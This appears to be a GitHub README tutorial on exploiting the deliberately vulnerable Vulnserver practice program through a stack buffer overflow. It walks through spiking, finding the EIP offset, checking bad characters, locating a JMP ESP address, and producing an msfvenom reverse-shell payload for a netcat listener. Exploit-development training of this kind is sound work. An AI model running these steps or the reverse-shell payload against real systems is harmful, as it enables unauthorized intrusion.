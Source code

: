 # Vulnserver
First you need to find what command can cause the vulnserver to crash.

This is done through a process known as spiking.

On Kali, you can use the command: generic_send_tcp 192.168.2.14 9999 trun.spk 0 0

The trunk.spk file contains:
s_readline();
s_string("TRUN ");
s_string_variable("0");

generic_send_tcp will loop and continue to send 0's to the vulnserver until it crashes.  Commands that aren't vulnerable to buffer overflow will not cause the server to crash.  You can note this difference between using the STATS command vs TRUN.

The idea behind the python script is similar.  It keeps sending data until the vulnserver crashes and calculates the number of bytes it sent to cause the crash.  In this case, about 3000 bytes.

The next step invovles finding the offset value (the part where we overwrite the EIP.  A tool called pattern create (provided by Metasploit) makes this easy.

/usr/share/metasploit-framework/tools/exploit/

./pattern_create.rb -l 3000

We update our python script to send the data generated.

We crash vulnserver again and note the value of the EIP when the crash occured.  In this case, the value is 386F4337.

We now use the pattern offset tool and provide this value to hopefully find an exact match. 

./pattern_offset -l 3000 -q 386F4337

In this case, an exact match occurs at 2003.  This information is critical because it tells us the exact area that we can control the EIP

We can test this by modifying our python script again.  We can send 2003 A's and then 4 B's.

Before we send our payload, we need to find bad characters.  When we generate shellcode, we need to know what characters are good and bad.

Modify the python script again and send the badchars.  It will once again crash vulnserver.  Right click on the ESP and select the option to "follow in dump."  This will bring you to the location in memory where the badchars were sent and we must check each hex value from 00 to FF to see if any characters were not sent.  For example, if you see 10, 11, 12, 14 you'll notice that 13 is a bad character.  Note all of the bad characters (if there are consecutive bad characters, the only bad character is the first character in that sequence -- however, if you want to be cautious you can take out both characters).  

We now need to find the right module: a module running inside a program that has no memory protection.  Mona Modules can be used inside immunity debugger to find the right module.

We use the command at the bottom of Immunity: !mona modules

We can see protection settings for .dll files associated with vulnserver.  For example, with essfunc.dll, we can see false under each of the protection settings.

We now need to find the opcode equivalent of a JMP.  To do this, on KALI we are going to locate nasm_shell.  Here were are trying to convert assembly language to hex code.

locate nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasmnasm > JMP ESP
00000000  FFE4              jmp esp

The hex equivalent of jmp esp is FFE4.

We now use the following command to find the JMP ESP location in vulnserver:

!mona find -s "\xff\xe4" -m essfunc.dll

This command will retrieve some return addresses and list the memory protections:

 Address=625011AF
 Message=  0x625011af : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\Mr Robot\Desktop\vulnserver-master\vulnserver-master\essfunc.dll)


With this information, we can go back and edit our python script.  Instead of having 4 B's in place of the EIP, we will put that pointer in its place.  *We have to enter in the pointer in reverse* 

625011AF = /xaf/x11/x50/x62

We can insert a breakpoint at this memory location with the JMP code so that the buffer overflows to this exact spot.

Generating Shellcode with MSFVenom:

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.39 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

This command will generate a payload that can then be added to our python script.  Before we insert the shellcode into our script, we need to insert some nops (no operation).  They are represented with \x90.  We add 32 nops as padding between the jmp command and overflow.  If we don't add this, it's likely that the buffer overflow won't work.

Set up a netcat listener and then run the command to gain a reverse shell.
